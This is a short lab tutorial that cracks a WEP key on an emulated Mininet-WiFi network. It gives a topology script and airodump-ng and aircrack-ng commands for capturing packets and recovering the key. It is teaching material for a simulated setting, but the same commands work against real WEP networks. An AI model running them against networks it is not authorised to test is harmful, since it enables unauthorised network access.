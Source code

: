 ```yaml
---
tags: security-tutorials
---
```


# Cracking WEP Wi-Fi Encryption

**In this short demo you will:** 
- How to crack a WEP key

**Requirements:** 
- Mininet-WiFi - https://github.com/intrig-unicamp/mininet-wifi
- airodump-ng


First of all you need to identify the network topology that will be generated by the code below:

```python=
#!/usr/bin/python

'''@author: Ramon Fontes
   @email: ramon.fontes@imd.ufrn.br'''

from mininet.log import setLogLevel, info
from mn_wifi.cli import CLI
from mn_wifi.net import Mininet_wifi


def topology():
    "Create a network."
    net = Mininet_wifi()

    info("*** Creating nodes\n")
    sta1 = net.addStation('sta1', passwd='1234567891a', encrypt='wep')
    sta2 = net.addStation('sta2', passwd='123456789a', encrypt='wep')
    sta3 = net.addStation('sta3', passwd='123456789a', encrypt='wep')
    ap1 = net.addAccessPoint('ap1', ssid="simplewifi", mode="g", channel="1",
                             passwd='123456789a', encrypt='wep',
                             failMode="standalone", datapath='user')

    info("*** Configuring wifi nodes\n")
    net.configureWifiNodes()

    info("*** Associating Stations\n")
    net.addLink(sta1, ap1)
    net.addLink(sta2, ap1)
    net.addLink(sta3, ap1)

    info("*** Starting network\n")
    net.build()
    ap1.start([])

    info("*** Running CLI\n")
    CLI(net)

    info("*** Stopping network\n")
    net.stop()


if __name__ == '__main__':
    setLogLevel('info')
    topology()
```

So considering that the filename is wep<span>.py run it as below:

```
~$ sudo python wep.py
```

and then you have to create a monitor interface called mon0 for `sta1`.


```
mininet-wifi> sta1 iw dev sta1-wlan0 interface add mon0 type monitor
mininet-wifi> sta1 ifconfig mon0 up
```

Now you open a xterm for `sta1`

```
mininet-wifi> xterm sta1
```

Then we will start using the dump command to grab packets from other wireless devices, and the software will be able to make calculations and comparisons among the data to break the insecure WEP protocol. Enter the following command from `sta1`'s terminal: 


```
# airodump-ng mon0
```

Now it is time to tell your wireless interface to start storing captured wireless data based on the network of your choosing. Remember to plug in three key pieces of information from the previous output into the following command:

```
# airodump-ng –w simplewifi –c 1 –-bssid 02:00:00:00:03:00 mon0 
```

Last but not least, you are going to need to do the most important step of the process by actually using the captured data from the WEP device. Issue the following command:


```
# aircrack-ng simplewifi-01.cap
```

If all goes according to plan, you should be able to break the WEP system. However, if the command fails, you will want to wait until your wireless card captures more data. Give it time to capture 15,000 packets and then try again.
